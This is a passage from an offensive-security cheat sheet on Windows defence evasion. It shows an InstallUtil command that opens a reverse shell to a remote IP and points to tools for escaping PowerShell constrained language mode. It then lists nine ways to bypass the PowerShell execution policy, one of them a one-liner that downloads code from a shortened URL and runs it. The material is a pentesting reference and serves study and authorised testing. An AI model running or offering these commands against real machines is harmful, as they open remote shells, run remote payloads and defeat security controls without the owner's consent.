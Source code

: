 #### Reverse shell:

```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=10.10.13.206 /rport=443 /U c:\temp\psby.exe
```

You can use [**ReflectivePick**](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerPick) or [**SharpPick**](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerPick) to **execute Powershell** code in any process and bypass the constrained mode. For more info check: [https://hunter2.gitbook.io/darthsidious/defense-evasion/bypassing-applocker-and-powershell-contstrained-language-mode](https://hunter2.gitbook.io/darthsidious/defense-evasion/bypassing-applocker-and-powershell-contstrained-language-mode).

## PS Execution Policy

By default it is set to **restricted.** Main ways to bypass this policy:

```powershell
1º Just copy and paste inside the interactive PS console
2º Read en Exec
Get-Content .runme.ps1 | PowerShell.exe -noprofile -
3º Read and Exec
Get-Content .runme.ps1 | Invoke-Expression
4º Use other execution policy
PowerShell.exe -ExecutionPolicy Bypass -File .runme.ps1
5º Change users execution policy
Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted
6º Change execution policy for this session
Set-ExecutionPolicy Bypass -Scope Process
7º Download and execute:
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://bit.ly/1kEgbuH')"
8º Use command switch
Powershell -command "Write-Host 'My voice is my passport, verify me.'"
9º Use EncodeCommand
$command = "Write-Host 'My voice is my passport, verify me.'" $bytes = [System.Text.Encoding]::Unicode.GetBytes($command) $encodedCommand = [Convert]::ToBase64String($bytes) powershell.exe -EncodedCommand $encodedCommand
```

More can be found [here](https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/)

## Security Support Provider Interface (SSPI)

Is the API that can be use to authenticate users.

The SSPI will be in charge of finding the adequate protocol for two machines that want to communicate. The preferred method for this is Kerberos. Then the SSPI will negotiate which authentication protocol will be used, these authentication protocols are called Security Support Provider (SSP), are located inside each Windows machine in the form of a DLL and both machines must support the same to be able to communicate.

### Main SSPs
